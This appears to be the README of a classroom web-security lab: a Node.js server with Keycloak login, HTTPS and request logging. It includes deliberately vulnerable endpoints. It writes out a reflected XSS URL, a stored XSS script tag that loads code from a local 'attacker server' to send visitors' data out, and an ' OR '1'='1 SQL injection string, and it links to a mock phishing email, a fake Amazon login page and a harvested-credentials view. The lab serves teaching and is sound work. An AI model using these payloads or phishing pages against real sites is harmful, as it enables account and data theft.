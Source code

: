 # Web Server with Advanced Features: Keycloak, XSS, and HTTPS

## Project Description

This project implements a web server developed with Node.js and Express, featuring advanced functionalities such as:

* Integration with a Keycloak server for authentication using the OpenID Connect protocol.

* Simulations for Cross-Site Scripting (XSS) attacks, both non-persistent and persistent.

* Configuration for HTTPS access using a self-signed digital certificate.

* Logging capabilities to store relevant information for traffic analysis.

## Prerequisites

To run this project, install these:

* Node.js (v14+): Download Node.js

* Python 3.x: For the attacker server.

* Git: Download Git

* OpenSSL: On Windows, ensure you know the path to the OpenSSL executable (e.g., C:\Program Files\Git\usr\bin\openssl.exe).

## Project Setup

1. Clone the Repository
   ```sh
   git clone https://github.com/username/repo.git
   cd repo
   ```

2. Install Dependencies
   ```sh
   npm install
   ```

4. Generate a Self-Signed Digital Certificate

   If using OpenSSL, run the following command:
   ```sh
   openssl req -nodes -new -x509 -keyout server.key -out server.cert -days 365
   ```
   This will generate the `server.key` and `server.cert` files used for HTTPS configuration.

   You can use this command to use the openssl in Windows more easily
   ```
   "C:\Program Files\Git\usr\bin\openssl.exe" req -nodes -new -x509 -keyout server.key -out server.cert -days 365
   ```

## Key Features


### 1. Keycloak Integration

   The server supports authentication via OpenID Connect using a Keycloak server:
   `https://sso.utiasi.ro/`
   
   Example to access the private area:
   ```sh
   https://localhost:4567/private
   ```


### 2. XSS Attacks
#### a) Non-Persistent (Reflected) XSS
   The payload is passed via the URL and executed on the client:
   
   Example of a malicious URL:
   ```sh
   http://localhost:4567/cauta?q=<script>alert('XSS attack!')</script>
   ```

#### b) Persistent (Stored) XSS
   The payload is stored in the database and executed for all users accessing a specific page.
   
   Example of a payload injected through the registration form:
   ```sh
   <script src="http://127.0.0.1:5000/script.js"></script>
   ```


### 3. Logging
   The server uses the winston library to log HTTP request information, such as:
   * Request method (`request.method`)
   
   * HTTP headers (`request.headers`)
   
   * URL parameters (`request.args`)
   
   * Request body content (`request.body` or `request.json`)

   Log file analizer usage:
   
   ```sh
   # Show 4xx errors
   python log_analyzer.py 1
   
   # Show URL statistics
   python log_analyzer.py 2
   
   # Watch logs in real-time
   python log_analyzer.py 3
   
   # Specify a different log directory
   python log_analyzer.py 2 --log-dir /path/to/logs
   ```

### 4. HTTPS
   The application is configured to run over HTTPS using the generated certificate.
   
   Access it at:
   ```sh
   https://localhost:4567
   ```

### 5. SQL Injection
```
http://localhost:4567/cauta?q=' OR '1'='1
```
Here the query becomes ```SELECT * FROM users WHERE name = '' OR '1'='1' ``` and ```OR '1'='1'``` is always true, so this will return all the `users` table entries. To solve this problem we have to sanitise the entry data, using for example Sequelize. This sanitisation is automatically done by `sqlite`.

## Running the Servers

1. Start the Node.js Server

   Run the following command to start the main server:
   ```sh
   node app.js
   ```

   The server will be available at:
   ```sh
   https://localhost:4567
   ```


2. Start the Python Server (Attacker)
   ```sh
   python attacker_server.py
   ```

The server will receive data and log it in `server.log`.


## Usage Examples

### Non-Persistent XSS

* Access the URL:
  `http://localhost:4567/cauta?q=<script>alert('XSS attack!')</script>`

* The victim's browser will display an alert box with the text XSS attack!.

### Persistent XSS

Inject the payload in the registration form:

```sh
<script src="http://127.0.0.1:5000/script.js"></script>
```

Every user accessing the main page will execute the malicious code, sending data to the attacker's server.


## Possible problems and how to solve it:

Access to fetch at `http://localhost:5000/api/data` from origin `http://localhost:4567` has been blocked by CORS policy: Response to preflight request doesn't pass access control check: `No 'Access-Control-Allow-Origin' header is present on the requested resource`. If an opaque response serves your needs, set the request's mode to `no-cors` to fetch the resource with CORS disabled

You need to enable CORS on the server where the API is hosted (http://127.0.0.1:5000)


## Useful links

Link to see the phishing email: http://localhost:5000/api/email
Link to the fake amazon phishing page: http://localhost:5000/api/phishing
Link to view the credentials sent to the server: http://localhost:5000/api/view-credentials

